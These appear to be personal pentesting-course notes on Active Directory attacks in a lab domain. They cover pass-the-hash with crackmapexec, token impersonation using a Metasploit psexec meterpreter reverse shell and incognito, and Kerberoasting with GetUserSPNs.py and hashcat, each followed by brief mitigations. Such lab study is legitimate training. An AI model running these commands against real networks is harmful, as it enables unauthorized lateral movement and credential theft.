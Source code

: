 


#### Pass the hash attack
- To run use "crackmapexec 192.168.57.0/24 -u "Frank Castel" -H "hash" --local-auth". 
##### Pass the hash attack mitigation
- Limit the account re-use
- Utilize strong passwords
- Privilege Access management

### Token Impersonation
#### What are tokens?
- Temporary keys that allow you to acces to a system/network withouth having to provide credentials each time you access a file. Think of cookies for computers.
There are 2 types:
- Delegate - Created for loggin into a machine or using remote desktop
- Impersonation - "Non-interactive" such as attaching a network drive or a domain logon script.
#### Token Impersonation
- Use meterpreter to get a meterpreter shell using psexec "use exploit/windows/smb/psexec". Set the rhost, domain, pass, username, target to "native upload" and payload to "windows/x64/meterpreter/reverse_tcp".
- Once inside we can do the usual stuff, "hashdump", sysinfo and getuid. After wer will load incognito using "load incognito".
- Using this tool we can start by "list_tokens -u" to list all the tokens available.
- We can impersonate using "impersonate_token MARVEL\\administrator" and we run "shell" and have a shell as administrator. Using ctrl+c we go ba
- ck but not as in the beginning. You can use "rev2self" to go back as the first meterpreter. 
- The delegate Tokens are a login session so only after loggin in with that user you will be able to list it. That token will exist untill the pc is rebooted.  

#### Token Mitigation
- Limit user/group tokens creation permission
- Account tiaring
- Local admin restriction

### Kerberoasting
#### Overview
![[Pasted image 20230604103614.png]]
- We request a TGT using username and password, normal user not a admin. We then use the TGT to request a TGS. We the use the TGS to request the service and it will be attcahed to the serves hash that we can decrypt. 
- The goal of Kerberoasting is to get the TGS (ticket granting service ticket) and decrypt servers account hash. 
![[Pasted image 20230604104434.png]]
![[Pasted image 20230604104508.png]]


#### Kerberoasting Walk
- We request the TGS using "python GetUserSPNs.py MARVEL.local/pparker:Password1 -dc-ip 192.168.138.200 -request" and we get the kerberos 5 TGS hash. 
- We can search the mnodule for hashcat using "hashcat --help | grep Kerberos" and we run "hashcat64.exe  -m 13100 hash.txt rockyou.txt -O".
- We crack the sqlservice password. 
#### Mitigation
- Strong Password
- Least Privilege
